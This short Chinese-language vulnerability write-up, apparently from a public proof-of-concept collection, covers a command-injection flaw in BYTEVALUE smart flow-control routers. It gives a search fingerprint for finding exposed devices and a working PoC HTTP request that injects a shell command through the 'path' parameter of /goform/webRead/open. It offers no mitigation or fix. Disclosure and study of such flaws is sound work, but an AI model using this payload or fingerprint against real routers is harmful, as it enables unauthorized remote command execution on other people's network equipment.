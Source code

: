 # 百为通达 智能流控路由器 open 远程命令执行漏洞

# 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

百为通达 智能流控路由器

## 网络测绘

```
"BYTEVALUE 智能流控路由器"
```

## 漏洞复现

登陆页面

![image-20231116142008257](images/image-20231116142008257.png)

poc

```
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

![image-20231116142021268](images/image-20231116142021268.png)


